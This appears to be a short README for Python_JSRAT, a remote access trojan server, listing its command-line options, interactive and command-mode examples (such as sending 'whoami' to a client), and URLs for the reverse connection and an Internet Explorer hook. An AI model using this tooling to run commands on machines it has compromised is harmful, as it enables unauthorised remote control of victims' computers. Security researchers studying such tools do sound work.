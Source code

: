 # JSRAT

# How to Use Python_JSRAT:
JSRat Server
Usage: MyJSRat.py [options]

Options:
  --version             show program's version number and exit
  -h, --help            show this help message and exit
  -i IP, --ip=IP        IP to Bind Server to (i.e. 192.168.0.69)
  -p PORT, --port=PORT  Port to Run Server on
  -u URL, --url=URL     URL to Initiate Client Connection (default: /connect)
  -f, --find-ip         Display Current Internal and External IP Addresses
  -c CMD, --command=CMD
                        auto Send command to client (No interaction)
  -v                    Enable Verbose Output
  
Two Modes:
  1-Interactive mode
   python MyJSRat.py -i 192.168.1.101 -p 8080
  
  2-Command mode
  python MyJSRat.py -i 192.168.1.101 -p 8080 -c "whoami"

Url explain:
http://192.168.1.101:8080/connect  default reverse url
http://192.168.1.101:8080/wtf To see the code ran on the client
http://192.168.1.101:8080/hook IE hook link

